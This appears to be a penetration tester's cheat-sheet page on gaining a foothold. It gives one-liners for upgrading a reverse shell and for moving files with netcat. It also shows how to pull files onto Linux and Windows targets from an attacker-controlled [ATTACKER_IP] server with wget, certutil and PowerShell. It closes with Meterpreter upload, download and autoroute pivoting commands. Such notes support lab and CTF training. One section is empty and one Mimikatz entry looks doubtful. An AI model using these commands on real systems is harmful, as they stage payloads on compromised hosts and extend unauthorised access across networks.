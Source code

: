 ```yaml
---
title: 4 – Foothold
summary: Foothold step – a note for confirming foothold and adding a little persistence.
description: Foothold step – a note for confirming foothold and adding a little persistence.
---
```


# Spawn Better Shell

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm</font>**</br>
 > `Ctrl + Z`</br>
 > **<font color=red>stty raw -echo; fg</font>**</br>
 > Spawn a better shell (tab, history, ...).

# Extract File from Target

---

### CURL



# Upload File on Target

---

### NETCAT


 > 
 > **<font color=red>nc -l -p </font>\[TARGET_PORT\] <font color=red>\></font> newFile**</br>
 > Run on Target.

 > 
 > **<font color=red>nc</font> \[TARGET_IP\] \[TARGET PORT\] <font color=red>\<</font> myFile**</br>
 > Run on Attacker machine. Send a file on the target.

---

### PYTHON


 > 
 > **<font color=red>python3 -m http.server</font> \[ATTACKER_PORT\]**</br>
 > Run on attacker machine (at the file location).

 > 
 > **<font color=red>wget http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/myFile</font>**</br>
 > Get the file on a Linux target machine.

 > 
 > **<font color=red>certutil.exe -urlcache -f http://</font>\[ATTACKER_IP\]:\[ATTACKER_PORT\]<font color=red>/</font>myFile myFile**</br>
 > or</br>
 > **<font color=red>powershell -c wget "http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>" -outfile "</font>myFile<font color=red>"</font>**</br>
 > or</br>
 > **<font color=red>powershell -c "(new-object System.Net.WebClient).Downloadfile('http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>', '</font>myFile<font color=red>')"</font>**</br>
 > Get the file on a Windows target machine.

---

### MIMIKATZ


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

---

### METERPRETER


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

# Pivoting

---

### METERPRETER

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
